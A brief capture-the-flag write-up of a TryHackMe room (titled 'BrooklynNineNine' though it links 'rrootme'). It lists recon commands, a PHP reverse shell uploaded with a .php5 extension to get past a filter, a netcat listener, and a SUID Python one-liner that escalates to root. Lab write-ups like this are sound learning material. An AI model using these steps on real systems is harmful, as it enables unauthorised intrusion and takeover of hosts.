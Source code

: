 # BrooklynNineNine - solution
- Link: https://tryhackme.com/room/rrootme
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap <IP> --open -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap <IP> -sCV -p22,80 -oN ports `

## Port 80 - website recognition
- `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -o hidden_dir` to discover hidden directories
- Found `/panel` and `/uploads`
- Found an input form on `http://<IP>/panel`

## Exploitation
- `cd scripts`
- Downloaded `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 
- Set my own IP and a random port in that code
- Renamed it with `.php5` extension because `.php` was not accepted
- Uploaded the file
- `nc -lvnp <port>` to make NetCat listen on the specified port
- Visited `http://<IP>/uploads` and run the uploaded file 
- Inside the reverse shell:
  - `cd /var/www`
  - `cat user.txt`
    - Found the `USER FLAG`
  
## Privileges escalation
- Inside the reverse shell:
  - Couldn't access `/root`, so:
  - `find / -user root -perm /4000` (THM hint to find binaries)
  - Found `/usr/bin/python`
- Checked it on https://gtfobins.github.io (filtered by SUID) and found how to exploit the binary
- Inside the reverse shell:
  - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")' `
  - `whoami` to check if I became the root 
  - `cd /root`
  - `cat root.txt` 
    - Found the `ROOT FLAG`
